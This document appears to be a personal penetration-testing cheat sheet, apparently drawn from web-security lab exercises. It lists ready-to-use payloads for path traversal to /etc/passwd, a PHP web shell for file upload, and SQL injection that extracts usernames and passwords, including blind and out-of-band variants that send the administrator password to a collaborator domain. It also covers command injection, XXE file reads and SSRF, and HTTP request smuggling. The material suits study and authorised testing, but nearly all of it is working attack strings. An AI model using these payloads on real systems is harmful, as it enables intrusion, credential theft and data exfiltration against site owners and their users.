 # notes
## **PATH TRAVERSAL**
Default way:

>GET /image?filename=../../../../../../../../etc/passwd

Url-Encoded:

>%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

Way, when `../` erased:

>....//....//....//....//

When filename should start with some string 

>/var/www/images/../../../../../etc/passwd

When server URL-decode of the input before using it.
>..%252f..%252f..%252fetc/passwd

When server require ending, like `png` , use null bytes, for example
>../../../etc/passwd%00.png





## **FILE UPLOAD**
Default way:
><?php echo system($_GET['command']); ?>

Flawed file type validation:
Change content type to image/jpeg

Script execution can be disabled in a separate folder. This can be bypassed with the help of path traversal:
Instead of 
`Content-Disposition: form-data; name="avatar"; filename="exploit.php"`
  We can use
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
  Or obfuscated versions


### **SQL INJECTION**

Login Bypass:

`administrator'--`

#Substring:

`SUBSTRING('foobar', 4, 2)`
Oracle `SUBSTR('foobar', 4, 2)`

#Simle WAF Bypass by encoding:

`<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>`

`<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>`


### **UNION SQL INJECTION**

Simple Data Retrieve (request `SELECT name, description FROM products WHERE category = 'Gifts'`):

`' UNION SELECT username, password FROM users--`

**Oracle add `from dual`**

### Determine number of columns:

`' ORDER BY 3--`
Second method, allow to determine type of data in column:

`' UNION SELECT NULL,NULL,NULL--`/`' UNION SELECT 'a',NULL,NULL,NULL--`

### Concatenation of strings:

`' UNION SELECT username || '~' || password FROM users--`
Mysql `CONCAT('foo','bar')` or `'foo' 'bar'` note space.

## **BLIND SQL INJECTION**

### conditional based

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

### error based

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`

`'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

### visible errors based

`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

### time based

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

### out of band interaction

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`


## **Command Injection**

### Simple

`1|whoami`

### time delays

`email=x||ping+-c+10+127.0.0.1||`

### out of band interaction

`email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`

## **XXE**

### retrieve files

` <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> `

### by xinclude

`<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>`


### ssrf

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`


#HTTP request smuggling - writing one request so that the server thinks that it is 2 different.
It uses 2 headers. `Content-Length: x` and `Transfer-Encoding: chunked`. **It works only in HTTTP/1.1**.


##CL.TE
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
Front-end server support only Content-Length header, backend support Transfer-Encoding. Front pass all as 1 request, backend split into two and read second one as new request, which start from
word SMUGGLED, as method. And next request passed to server will be added to this, and will arise error.

##TE.CL
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


````
Front-end server support Transfer-Encoding header, backend support only Content-Length. Front pass all as 1 request, backend split into two and read second one as new request, which start from
word SMUGGLED, as method. And next request passed to server will be added to this, and will arise error.

##TE.TE
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 8
Transfer-Encoding: cow
Transfer-Encoding: chunked

0


G
```
Front-end server support Transfer-Encoding, but can be bypassed, to be readed backend server.
Bypass methods:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
